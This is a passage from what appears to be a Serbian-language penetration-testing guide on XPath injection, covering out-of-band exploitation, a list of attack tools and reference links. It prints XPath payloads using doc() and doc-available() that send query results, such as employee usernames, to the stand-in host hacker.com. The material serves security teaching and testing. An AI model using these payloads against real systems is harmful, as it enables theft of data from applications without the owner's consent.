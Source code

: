 Važno je napomenuti da OOB eksploatacija može biti složena i zahteva dobro razumevanje XPath Injection ranjivosti i OOB kanala. Napadač mora biti pažljiv prilikom konstrukcije payloada i praćenja OOB kanala kako bi uspešno izvršio eksploataciju.

```python
doc(concat("http://hacker.com/oob/", RESULTS))
doc(concat("http://hacker.com/oob/", /Employees/Employee[1]/username))
doc(concat("http://hacker.com/oob/", encode-for-uri(/Employees/Employee[1]/username)))

#Instead of doc() you can use the function doc-available
doc-available(concat("http://hacker.com/oob/", RESULTS))
#the doc available will respond true or false depending if the doc exists,
#user not(doc-available(...)) to invert the result if you need to
```

### Automatski alat

* [xcat](https://xcat.readthedocs.io/)
* [xxxpwn](https://github.com/feakk/xxxpwn)
* [xxxpwn\_smart](https://github.com/aayla-secura/xxxpwn\_smart)
* [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
* [XmlChor](https://github.com/Harshal35/XMLCHOR)

## Reference

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection)
* [https://wiki.owasp.org/index.php/Testing\_for\_XPath\_Injection\_(OTG-INPVAL-010)](https://wiki.owasp.org/index.php/Testing\_for\_XPath\_Injection\_\(OTG-INPVAL-010\))
* [https://www.w3schools.com/xml/xpath\_syntax.asp](https://www.w3schools.com/xml/xpath\_syntax.asp)

<figure><img src="../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>
